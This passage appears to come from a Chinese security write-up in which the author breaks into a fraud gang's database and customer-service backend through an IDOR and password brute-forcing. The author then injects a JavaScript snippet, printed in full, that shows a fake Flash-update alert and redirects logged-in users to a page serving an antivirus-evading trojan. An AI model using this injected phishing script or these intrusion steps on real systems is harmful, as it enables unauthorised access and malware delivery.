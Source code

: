 ## 3.1控制数据库

登陆mysql数据库查看诈骗嫌疑人登陆IP  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165203.png)  
杭州的电信基站动态IP，判断是家庭路由，暂无溯源价值。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165204.png)

## 3.2控制客服系统

第一套诈骗源码的客服系统使用的是网上在线客服系统  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165205.png)  
在后台翻到了客服的后台登陆地址，前端显示账号存在or密码错误，无奈账号没爆破成功。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165206.png)  
随即笔者自己注册了该客服系统，通过adminid配合uid遍历SetCookie，越权成功，拿到客服账号。  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165207.png)

  
中文账号==  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165208.png)  
爆破拿到密码  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165209.png)  
登陆客服后台  
整个诈骗话术链  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165211.png)  
与受害人聊天记录

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165212.png)  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165213.png)

  

## 3.3使用flash钓鱼

在控制诈骗app服务器权限后，笔者使用flash钓鱼试图控制诈骗团伙个人PC。  
在后台登陆成功后跳转的文件插入跳转js 跳转到事先准备好的假的flash更新页面  
事先准备：免杀马一只 flash假域名一个(最好是包含有"flash"的字样)

    
    
    <script>window.alert = function(name){var iframe = document.createElement("IFRAME");iframe.style.display="none";iframe.setAttribute("src", 'data:text/plain,');document.documentElement.appendChild(iframe);window.frames[0].window.alert(name);iframe.parentNode.removeChild(iframe);};alert("您的FLASH版本过低，请尝试升级后访问改页面!");window.location.href="https://www.flashxxxx.com";</script>  
    

效果：  
输入账号密码后登录，此时加载以上JavaScript。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165214.png)  
点击"确认"跳转到事先伪造的flash更新页面网站，诱导下载点击。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211026165215.png)  
但是最后并未上线，通过日志发现诈骗团伙是登陆了该后台的，此处也算是一个小遗憾。
